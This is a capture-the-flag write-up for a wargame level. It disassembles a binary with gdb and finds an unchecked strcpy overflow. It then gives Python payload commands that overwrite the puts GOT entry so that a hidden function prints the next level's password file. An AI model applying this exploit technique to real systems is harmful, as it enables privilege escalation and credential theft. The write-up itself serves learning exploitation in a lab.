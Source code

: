 # Level 7

## First clue
- once logged in as level7 we find again an executable  owned by `level8` 
- we try to execute it without arguments and we get a segfault
- if we write one or more alpha and numeric argiments, we get back `~~`

## Inspect with gdb
- `(gdb) info function` reveals main and m functions, but also a system call, malloc, strcpy, time, puts and printf. 
```
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini


```
## Main
```
    0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret   


```
Disassemblying main we find out that:
- The program takes 2 arguments.
- It opens a file using the fopen function.
- The file being opened is identified as "/home/user/level8/.pass":
```
(gdb)$ x/s 0x80486e9
0x80486e9:	"r"
(gdb)$ x/s 0x80486eb
0x80486eb:	"/home/user/level8/.pass"
```
- The source address for copying is obtained from the second argument (0x18(%esp)).
- The destination address for copying is obtained from the first argument (0x1c(%esp)).
- The first strcpy call copies the content from the second argument (argv[2]) to the buffer pointed to by the first argument (buf).
- The file descriptor returned by fopen is stored on the stack at DWORD PTR [esp+0x8].
- The size of the buffer to read from the file is set to 0x44 (68 in decimal), and this value is also stored on the stack at DWORD PTR [esp+0x4].
- The address 0x8049960 is moved onto the stack, indicating the destination buffer where the content of the file will be stored.
- fgets is then called to read a line from the file. It reads up to 0x44 characters from the file and stores them in the buffer pointed to by 0x8049960.
- Finally, puts is called to print out the content of the buffer (0x8049960).

## Function m

- it's not called anywhere but it handle the same variable located at 0x8049960 that puts print out in main function.
- if we analyze its content we discover that is a global variable called "c":
```
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
- function m pass this variable to printf:
```
  0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret 
```

## The vulnerability and how to exploit it

- Buffer Overflow: the strcpy calls do not perform bound checking (check if destination buffer is shorter than source string)

How to exploit it: 
- Overwrite Return Address:  we can overwrite the return address of the puts function with the address of the m function. This would cause the program to execute the m function before the main function returns.
Since the main function take 2 args and the second is copied into the buffer pointed to by the first argument, if we pass the puts function address pointer (the one present in GOT) as first arg and the m function address as second arg, we overwrite the return address of the puts function with the address of the m function, hijacking the control flow of the program. This allows us to redirect the program's execution to the m function, which contains the code to print out the c variable, that point to the .pass file we want to cat. 

## Exploit
- to find the offset of the strcpy buffer we run the program in gdb passing as argument a long string made of set of 4 char (in 32 bit architecture alignement memory addresses are divisible by 4) of the alphabet, lower and uppercase:
```
(gdb) run "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
```
- we get `Program received signal SIGSEGV, Segmentation fault.
0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6
`
- that means that EIP was not overwritten, but since when a buffer overflow occurs, the extra characters from the input overwrite adjacent memory locations, including the contents of CPU registers such as eax and edx, we check eax and edx and we find "46464646":
```
(gdb) i register
eax            0x46464646	1179010630
ecx            0x0	0
edx            0x46464646	1179010630
```
- 46 is the ASCII for "F" at position 21, so the end of the buffer is at position 20 => `echo "AAAABBBBCCCCDDDDEEEEF" | grep -o .  |  wc -l`
- we store in /tmp/puts 20 letters + the address of puts function (reversed for little endian) and pass /tmp/exploit as argument to ./level7
- the address of puts:
```
(gdb)$ info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts@plt

(gdb)$ x/i 0x08048400
0x8048400 <puts@plt>:	jmp    DWORD PTR ds:0x8049928
```
- `python -c 'print "a"*20+"\x28\x99\x04\x08"' > /tmp/puts`
- we store in /tmp/m the address of m function as it appears in info function (reversed for little endian): `080484f4`
- `python -c 'print "\xf4\x84\x04\x08"' > /tmp/m`
- `./level7 $(cat /tmp/puts) $(cat /tmp/m)`
- we get the flag
